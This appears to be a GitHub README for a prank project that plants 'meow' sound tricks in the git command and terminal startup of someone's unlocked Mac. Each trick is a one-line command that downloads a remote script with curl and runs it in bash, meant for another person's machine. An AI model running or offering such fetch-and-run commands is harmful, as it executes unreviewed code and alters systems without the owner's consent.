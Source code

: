 # DFTLYC
Don't Forget To Lock Your Computer!

Drop a shell payload via command line. That's what happens when you forget to lock your computer!

##gitmeow (OSX)
git with say meow first.

```bash <(curl -s https://raw.githubusercontent.com/elwaxoro/DFTLYC/master/gitmeow_osx.sh)```

##newshell (OSX)
each terminal that starts gets meow from every available voice

```bash <(curl -s https://raw.githubusercontent.com/elwaxoro/DFTLYC/master/newshell_oxs.sh)```

